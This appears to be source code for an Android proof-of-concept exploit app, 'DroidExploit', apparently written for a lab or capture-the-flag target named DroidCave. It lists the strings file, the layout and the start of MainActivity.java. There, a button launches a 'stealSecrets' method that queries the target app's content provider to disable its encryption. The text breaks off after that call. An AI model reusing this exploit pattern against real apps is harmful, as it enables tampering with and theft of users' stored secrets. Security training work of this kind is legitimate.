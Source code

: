 **`/res/strings.xml`**
```XML
<resources>  
    <string name="app_name">DroidExploit</string>  
    <string name="btn_txt">Do something cool!</string>  
</resources>
```

**`activity_main.xml`**
```XML
<?xml version="1.0" encoding="utf-8"?>  
<androidx.constraintlayout.widget.ConstraintLayout  
    xmlns:android="http://schemas.android.com/apk/res/android"  
    xmlns:app="http://schemas.android.com/apk/res-auto"  
    android:layout_width="match_parent"  
    android:layout_height="match_parent">  
  
    <Button  
        android:id="@+id/btnRun"  
        android:layout_width="wrap_content"  
        android:layout_height="wrap_content"  
        android:text="@string/btn_txt"  
        app:layout_constraintBottom_toBottomOf="parent"  
        app:layout_constraintEnd_toEndOf="parent"  
        app:layout_constraintStart_toStartOf="parent"  
        app:layout_constraintTop_toTopOf="parent" />  
</androidx.constraintlayout.widget.ConstraintLayout>
```

**`MainActivity.java`**
```java
package com.lautaro.droidexploit;  
  
import android.content.ContentResolver;  
import android.database.Cursor;  
import android.net.Uri;  
import android.os.Bundle;  
import android.util.Log;  
import android.widget.Button;  
  
import androidx.appcompat.app.AppCompatActivity;  
  
public class MainActivity extends AppCompatActivity {  
  
    private static final String TAG = "DroidExploit";  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
        super.onCreate(savedInstanceState);  
        setContentView(R.layout.activity_main);  
  
        Button run = findViewById(R.id.btnRun);  
        run.setOnClickListener(v -> new Thread(this::stealSecrets).start());  
    }  
  
    // disable encryption  
    private void stealSecrets() {  
        ContentResolver cr = getContentResolver();  
  
        // turn off encryption  
        cr.query(  
                Uri.parse("content://com.eightksec.droidcave.provider/disable_encryption"),  
                null, null, null, null  
        );  
  
```